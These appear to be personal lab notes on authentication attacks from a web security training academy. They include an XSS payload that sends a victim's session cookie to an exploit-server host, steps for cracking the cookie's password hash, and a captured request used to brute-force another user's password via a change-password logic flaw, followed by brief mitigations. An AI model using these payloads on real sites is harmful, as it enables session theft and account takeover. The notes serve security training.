 #### Lab: Offline password cracking

- We know that comment section vulnerable to XSS, so we can use payload like this:

```html
<script>
    document.location='https://exploit-0a4f006103ffb36380a2029b0128007f.exploit-server.net/'+document.cookie
<script>
```

- Decode base64 cookie and use `https://crackstation.net/` to crack a password

#### Lab: Password brute-force via password change

- When we want to update password we are providing username in a hidden field, so what we could do:
- Send request to intruder
- Update name to `carlos`, new_password_1 and new_password_2 should be different! (because of how logic handled -first current_password checked and after that - new passwords compared, so if we gues current_password it will fail with another error)
- If we have wrong current_password - response will have `Current password is incorrect`, otherwise - `New passwords do not match`

```html
POST /my-account/change-password HTTP/2
Host: 0a2a0096038f82e185677284006a005a.web-security-academy.net
Cookie: session=yXCJUvKVv5feScBZV31oUNKYjz82sIPG
Content-Length: 80
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://0a2a0096038f82e185677284006a005a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a2a0096038f82e185677284006a005a.web-security-academy.net/my-account/change-password
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

username=carlos&current-password=peter&new-password-1=peterr&new-password-2=dast
```

### Common Authentication Vulnerabilities & Mitigations
- Brute-force Attacks (ex: Attacker guesses passwords using automation.) Mitigations:
  - Implement rate limiting or exponential backoff.
  - Use CAPTCHAs after several failed attempts.
  - Lock account temporarily after too many failures.
  - Monitor and alert on suspicious login patterns.
